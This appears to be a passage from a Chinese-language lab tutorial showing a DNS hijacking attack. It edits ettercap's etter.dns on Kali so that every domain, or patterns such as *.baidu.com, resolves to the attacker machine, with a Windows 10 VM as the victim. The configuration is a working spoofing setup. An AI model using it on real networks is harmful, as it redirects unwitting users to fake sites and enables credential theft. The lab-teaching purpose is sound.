 ![image-20230812215315769](assets/image-20230812215315769-172995759952326.png)

## 4.2. DNS劫持攻击过程

这里就开始演示DNS劫持攻击过程，依旧是使用上述的靶机，倒霉蛋依旧是我们的Windows 10虚拟机。

### 4.2.1. 修改配置文件

这里我们要修改一下kali中 ettercap工具的DNS解析，确实也就是将流量转发到这个你设定的假网站上。

```
vim /etc/ettercap/etter.dns  ##配置文件地址
修改内容：
* A 192.168.2.10      ##星号就代表匹配所有，A就是A记录，192.168.2.10就是kali攻击机的地址，当然你也可以使用公网IP。

其他类型：   ##以下均可以配置，这个是针对性的
www.*.com A 192.168.2.10
*.baidu.com A 192.168.2.10
*.*.com A 192.168.2.10
```

![image-20230812220235338](assets/image-20230812220235338-172995759952328.png)
